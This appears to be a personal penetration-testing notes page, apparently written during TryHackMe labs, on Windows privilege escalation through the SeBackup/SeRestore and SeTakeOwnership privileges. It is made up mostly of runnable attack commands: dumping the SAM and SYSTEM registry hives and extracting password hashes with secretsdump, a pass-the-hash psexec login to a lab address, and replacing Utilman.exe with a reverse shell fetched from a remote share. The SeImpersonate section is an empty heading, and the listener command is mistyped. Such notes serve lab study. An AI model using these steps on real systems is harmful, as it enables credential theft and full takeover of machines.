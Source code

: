 ```yaml
---
category: Uncategorized
tags: []
---
```

- Rights of an account to perform specific tasks
- Can be checked with:
```powershell
whoami /priv 
```
- List of all permission can be found [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)

### SeBackup/SeRestore
[SeBackup/SeRestore](Privileges.md#SeBackup/SeRestore)
- SYSTEM and SAM hives can be backed up using : 
```powershell
# backup SYSTEM
reg save HKLM\SYSTEM C:\User\THMBackup\system.hive

# backup SAM
reg save HKLM\SAM C:\User\THMBackup\sam.hive
```
- These files can be used to extract hashes of users password using impacket's secretsdump [secretsdump.py](TechLexicon/Penetration%20Testing/Reference/Tools/Impacket.md#secretsdump.py)
```bash
# Dump the local account hashes using system.hive and sam.hive
secretsdump.py -system system.hive -sam sam.hive LOCAL
```
- Administrator hashes can be used to perform pass the hash attack to gain system shell.
```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.112.124

# We get shell as system.
C:\Windows\System32>
```

### SeTakeOwnership
[SeTakeOwnership](Privileges.md#SeTakeOwnership)
- `utilman.exe` is a service tha provides ease of access setting at windows login and runs with SYSTEM privileges.
- With `SeTakeOwnership` , we can take ownership of the `utilman.exe` executable and replace it with cmd or a reverse shell.
```powershell
# Take ownership of the utilman executable
takeown /f C:\Windows\System32\Utilman.exe

# Give yourself full permission to the executable
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F

# Overwrite the executable with reverse shell
copy \\<ip>\public\reverse Utilman.exe

# running a listener
nv -nvlp 9999
# After locking the computer and clicking on ease of access button, we get a reverse shell.
```
### SeImpersonate
